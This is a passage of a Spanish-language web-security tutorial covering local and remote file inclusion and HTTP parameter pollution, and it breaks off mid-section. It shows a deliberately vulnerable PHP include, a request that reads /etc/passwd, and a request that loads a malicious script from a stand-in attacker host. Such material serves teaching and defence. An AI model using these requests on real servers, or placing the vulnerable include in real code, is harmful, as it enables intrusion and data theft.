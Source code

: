 **Descripción**: Vulnerabilidad que permite a un atacante incluir archivos en el servidor.

#### Local

**Descripción**: Incluir archivos locales en el servidor, lo que puede llevar a la divulgación de información sensible.

**Ejemplo**: Si una aplicación web permite al usuario especificar un archivo para ser incluido:

php

Copiar código

`<?php include($_GET['file']); ?>`

Un atacante puede incluir `/etc/passwd`:

http

Copiar código

`http://victima.com/index.php?file=/etc/passwd`

#### Remote

**Descripción**: Incluir archivos remotos desde un servidor controlado por el atacante.

**Ejemplo**: Si la inclusión remota no está deshabilitada, un atacante puede incluir un archivo malicioso:

http

Copiar código

`http://victima.com/index.php?file=http://atacante.com/malicioso.php`

### Parameter Pollution

**Descripción**: Modificación de parámetros para causar comportamientos inesperados en la aplicación.

**Ejemplo**: Enviar múltiples valores para el mismo parámetro en una solicitud:

http

Copiar código

`http://victima.com/page?id=1&id=2`

El comportamiento puede variar dependiendo de cómo el servidor procese estos parámetros.

### Social Media Sharing Buttons

**Descripción**: Manipulación de botones de compartir en redes sociales para incluir contenido malicioso.

**Ejemplo**: Inyección de parámetros maliciosos en la URL de compartir:

http

Copiar código
